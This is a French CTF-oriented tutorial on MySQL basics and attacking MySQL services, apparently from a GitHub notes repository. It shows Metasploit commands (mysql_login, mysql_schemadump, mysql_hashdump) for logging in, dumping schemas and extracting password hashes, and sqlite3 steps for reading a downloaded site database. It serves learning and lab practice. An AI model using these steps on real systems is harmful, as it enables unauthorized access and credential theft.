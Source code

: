 # Les bases de MySQL 

## Introduction

SQL (Structured Query Language) est un langage de requête structuré utilisé pour communiquer avec une base de données relationnelle. Il est utilisé pour effectuer des opérations sur les données stockées dans une base de données ou pour modifier les données existantes. Il est principalement utilisé pour la gestion des données dans les systèmes de gestion de bases de données relationnelles (SGBDR), tels que MySQL, Oracle, Sybase, Microsoft SQL Server, PostgreSQL et SQLite.

Le serveur gère toutes les instructions relatives à la base de données, telles que la création, l'édition et l'accès aux données. Il reçoit et gère ces demandes et communique à l'aide du protocole MySQL. L'ensemble du processus peut être décomposé en plusieurs étapes :

* MySQL crée une base de données pour stocker et manipuler les données, en définissant les relations entre chaque table.
* Les clients formulent des requêtes en utilisant des instructions spécifiques en SQL.
* Le serveur répond au client en lui fournissant les informations demandées

MySQL peut fonctionner sur différentes plateformes, qu'il s'agisse de Linux ou de Windows. Il est couramment utilisé comme base de données dorsale pour de nombreux sites web importants et constitue un composant essentiel de la pile LAMP, qui comprend : Linux, Apache, MySQL et PHP.

### Explication des mots clés MySQL

#### Schéma

Dans MySQL, physiquement, un schéma est synonyme de base de données. Vous pouvez remplacer le mot-clé "DATABASE" par "SCHEMA" dans la syntaxe SQL de MySQL, par exemple en utilisant CREATE SCHEMA au lieu de CREATE DATABASE. Il est important de comprendre cette relation car d'autres produits de base de données font une distinction. Par exemple, dans le produit Oracle Database, un schéma ne représente qu'une partie d'une base de données : les tables et autres objets appartenant à un seul utilisateur.

#### Les Hashs :

Les hachages sont, très simplement, le produit d'un algorithme cryptographique qui transforme une entrée de longueur variable en une sortie de longueur fixe.

Dans MySQL, les hachages peuvent être utilisés de différentes manières, par exemple pour indexer des données dans une table de hachage. Chaque hachage possède un identifiant unique qui sert de pointeur vers les données d'origine. Cela permet de créer un index beaucoup plus petit que les données d'origine, ce qui permet de rechercher et d'accéder aux valeurs de manière plus efficace

Cependant, les données que nous allons extraire sont des hachages de mots de passe, qui sont simplement un moyen de stocker des mots de passe qui ne sont pas en clair.

## Enumeration

### Intro sur l'énumération MySQL

MySQL n'est probablement pas le premier point d'appel lorsque vous obtenez des informations initiales sur le serveur. Vous pouvez, essayer de forcer les mots de passe des comptes par défaut si vous n'avez vraiment pas d'autres informations ; cependant, dans la plupart des scénarios CTF, il est peu probable que ce soit la voie que vous soyez censé suivre. En règle générale, vous aurez obtenu des informations d'identification initiales en énumérant d'autres services, que vous pourrez ensuite utiliser pour énumérer et exploiter le service MySQL.

### Ports de base SQL

Le port de base SQL est le port 3306. C'est du TCP/IP.

### Packet nécessaire

Pour l'énumération de MySQL, il faut un client MySQL. Le plus légé est **mysql-client**.
Mais il existe aussi **mysql-workbench** qui est plus complet.

### Outils utilisés pour l'énumation MySQL

On va utiliser Metasploit pour l'énumération de MySQL. On va utiliser le module **auxiliary/scanner/mysql/mysql_login**. Mais il existe aussi des outils comme **SQLMap**, **SQLNinja** et **SQLPing**. Ou encore le script **mysql-enum** de **nmap** : [scitp infos](https://nmap.org/nsedoc/scripts/mysql-enum.html) ou [exploit db](https://www.exploit-db.com/exploits/23081)

### Connexion à MySQL

Pour se connecter à MySQL, on utilise la commande suivante :

```bash
mysql -u <user> -p <password> -h <host> -P <port>
```

### Utilisation de Metasploit

Supposons qu'on ai récupéré le couple USER:PASSWORD, on va utiliser le module **auxiliary/scanner/mysql/mysql_login** de Metasploit.

```bash
msf5 > use auxiliary/scanner/mysql/mysql_login
msf5 auxiliary(scanner/mysql/mysql_login) > set RHOSTS
RHOSTS =>
msf5 auxiliary(scanner/mysql/mysql_login) > set PASSWORD
PASSWORD =>
msf5 auxiliary(scanner/mysql/mysql_login) > set USERNAME
USERNAME =>
msf5 auxiliary(scanner/mysql/mysql_login) > run
```
Par défaut l'option `SQL` est `select version()`. Donc cela va nous retourner la version de MySQL.
Mais on peut changer pour `show databases` pour afficher les bases de données.

Plus d'infos sur le module : [ici](https://www.infosecmatter.com/metasploit-module-library/?mm=auxiliary/scanner/mysql/mysql_login)


## Exploitation

## Dump des bases de données

Pour dump les bases de données on va utiliser le module **mysql_schemadump** de Metasploit.

```bash
msf5 > use auxiliary/scanner/mysql/mysql_schemadump
msf5 auxiliary(scanner/mysql/mysql_schemadump) > set RHOSTS
RHOSTS =>
msf5 auxiliary(scanner/mysql/mysql_schemadump) > set PASSWORD
PASSWORD =>
msf5 auxiliary(scanner/mysql/mysql_schemadump) > set USERNAME
USERNAME =>
msf5 auxiliary(scanner/mysql/mysql_schemadump) > run
```

## Dump des hashs des mots de passe

Pour dump les hashs des mots de passe on va utiliser le module **mysql_hashdump** de Metasploit.

```bash
msf5 > use auxiliary/scanner/mysql/mysql_hashdump
msf5 auxiliary(scanner/mysql/mysql_hashdump) > set RHOSTS
...
msf5 auxiliary(scanner/mysql/mysql_hashdump) > run
```

### Dump des hashs des mots de passe sur sqlite manuellement

Pour dump les hashs des mots de passe, supposons que l'on a accès au fichier '.db' qui n'est autre que la base de donnée d'un site internet. Il suffit de la télécharger et de l'ouvrir avec un outil comme **sqlite3**. 
Exemple :
```bash
sqlite3 <database>
```

On va afficher les tables :

```bash
.tables
```
On va afficher les informations sur les tables trouvées :
    
```bash
PRAGMA table_info(<nom de la table>);
```

On va afficher les données de la table :

```bash
SELECT * FROM <nom de la table>;
```


